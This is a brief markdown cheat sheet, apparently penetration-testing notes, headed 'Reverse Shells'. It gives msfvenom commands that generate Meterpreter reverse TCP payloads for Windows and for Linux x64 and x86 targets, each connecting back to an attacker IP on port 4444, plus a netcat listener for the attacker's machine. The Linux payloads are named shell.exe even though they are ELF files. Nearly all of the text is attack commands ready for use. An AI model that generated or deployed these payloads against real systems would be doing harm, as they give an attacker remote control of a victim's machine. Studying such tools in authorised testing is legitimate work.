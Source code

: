 # Reverse Shells

## Generate Reverse TCP Shell For Windows Target
`msfvenom -p windows/meterpreter/reverse_tcp -LHOST=<your-IP> -LPORT=4444 -f exe -o shell.exe`

## Generate Meterpreter Reverse TCP For Linux x64 (64-bit) Target
`msfvenom -p linux/x64/meterpreter/reverse_tcp -LHOST=<your-IP> -LPORT=4444 -f elf -o shell.exe`

## Generate Meterpreter Reverse TCP For Linux x86 (32-bit) Target
`msfvenom -p linux/x86/meterpreter/reverse_tcp -LHOST=<your-IP> -LPORT=4444 -f elf -o shell.exe`

## Listen For Reverse Shell Connection On Attacker Machine
`nc -lvnp 4444`
